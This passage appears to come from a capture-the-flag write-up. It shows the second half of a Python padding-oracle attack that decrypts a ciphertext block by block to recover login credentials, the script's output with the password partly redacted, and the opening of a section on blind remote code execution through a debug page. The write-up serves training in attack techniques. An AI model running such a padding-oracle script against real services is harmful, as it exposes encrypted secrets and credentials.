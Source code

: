 ```python
    blocdec = b""
    control_bloc_end = b""
    
    for i in range(16):
      j = 0
      while j < 256:
        control_bloc = b'\x00' * (15-i) + bytes([j]) + control_bloc_end
        if(oracle(control_bloc+blocs[-1])):
          blocdec = int.to_bytes((i+1) ^ blocs[-2][15-i] ^ j) + blocdec
          control_bloc_end = b"".join([int.to_bytes((i+2) ^ blocdec[-k-1] ^ blocs[-2][15-k]) for k in range(i+1)])
          control_bloc_end = control_bloc_end[::-1]
          break
        j += 1
      if j == 256:
        exit(-1)

    blocs = blocs[:-1]
    total = blocdec + total
    print("[+] Bloc OK")
  return total

mchiffre = bytes.fromhex(ciphertext)
blocs=[]
for i in range(len(mchiffre)//16):
  blocs.append(mchiffre[i*16:(i+1)*16])

cleartext = crack_blocs(blocs)
cleartext = cleartext[:-cleartext[-1]].decode("utf8")
print("Cleartext :", cleartext)
```

The output after few minutes :
```
[+] Bloc OK
[+] Bloc OK
[+] Bloc OK
[+] Bloc OK
Cleartext : stefan1[REDACTED]62#f6dacd2599
```

We have our credentials !

# Blind Remote Code Execution
Thanks to the credentials, we can log in and access to the page `/exec.html` by clicking to
the top right corner button saying `DEBUG`.
![image](/images/thm_ny_flankees//admin_page.png)

We can take the first flag and try a few commands. The only output that the page can produce when
we input some command is `OK` or a blank page.
